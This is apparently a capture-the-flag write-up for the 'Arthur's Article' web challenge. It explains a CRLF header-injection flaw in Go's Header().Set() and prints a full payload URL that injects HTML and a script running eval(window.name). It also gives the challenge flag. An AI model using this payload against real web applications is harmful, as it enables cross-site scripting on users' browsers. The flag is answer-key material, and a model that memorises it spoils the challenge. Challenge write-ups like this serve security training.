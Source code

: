 # Notepad 1.5 - Arthur's Article

### Challenge Description

  ??????

### Challenge File
[Source](./Handout/arthursarticle.zip)

### MD5 Hash: 
`fc10f1d03e258b1e697a826541e5b2a1`


### Short Writeup

* Exploit CRLF in go's Header().Set() library to inject arbitrary html using the header name. 

* `http://chall.notepad15.gq/find?startsWith=asd&debug=2&A:asd%0AContent-Type:text/html%0A%0A%3Chtml%3E%3Cscript%3Eeval(window.name)%3C/script%3E`


### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{red_dead_rezoday_ialmvwoawpwe}`